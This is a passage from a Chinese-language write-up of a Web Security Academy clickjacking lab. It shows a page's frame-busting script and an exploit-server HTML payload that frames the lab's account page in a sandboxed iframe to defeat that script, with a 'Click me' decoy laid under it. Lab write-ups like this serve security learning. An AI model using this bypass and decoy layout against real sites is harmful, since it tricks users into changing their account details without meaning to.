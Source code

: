 ```html
<script>
  if (top != self) {
    window.addEventListener(
      "DOMContentLoaded",
      function () {
        document.body.innerHTML = "This page cannot be framed";
      },
      false,
    );
  }
</script>
```

在 exploit-server 的 response body 設定以下 html，重點是 `<iframe sandbox="allow-forms">`，這樣可以阻止 `window.addEventListener("DOMContentLoaded"` 的執行，因為沒有 [allow-scripts](../http/iframe-security.md#iframe-sandbox)

```html
<html>
  <head></head>
  <body>
    <style>
      html,
      body {
        margin: 0;
        padding: 0;
      }
      iframe {
        position: absolute;
        width: 500px;
        height: 500px;
        z-index: 1;
      }
      div {
        position: absolute;
        top: 440px;
        left: 50px;
        z-index: 0;
      }
    </style>
    <iframe
      src="https://0a3b00d70372c11b8002300c006000a8.web-security-academy.net/my-account?email=wiener2@normal-user.net"
      sandbox="allow-forms"
    ></iframe>
    <div>Click me</div>
  </body>
</html>
```

## Lab: Exploiting clickjacking vulnerability to trigger DOM-based XSS
